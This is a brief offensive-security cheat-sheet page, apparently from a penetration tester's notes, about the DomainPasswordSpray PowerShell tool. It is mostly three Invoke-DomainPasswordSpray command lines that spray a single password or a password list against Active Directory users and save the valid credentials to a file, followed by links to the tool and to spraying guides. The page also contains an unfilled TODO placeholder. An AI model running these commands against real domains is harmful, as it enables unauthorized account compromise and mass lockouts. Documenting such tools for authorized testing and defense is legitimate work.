 # DomainPasswordSpray

Search Tag(s): #password-spraying

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

```
PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt
```

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/01 - Enumeration and Discovery/Windows/Host/01 - Users/Manual/Living off the Land|account lockout observation window]].

```
PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.lst -OutFile credentials.txt
```

https://pwn.no0.be/exploitation/password/account_lockout/

```
PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.lst -Password <password> -OutFile credentials.txt
```

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)

- [Hacking Articles: Comprehensive Guide on Password Spraying Attack](https://www.hackingarticles.in/comprehensive-guide-on-password-spraying-attack/)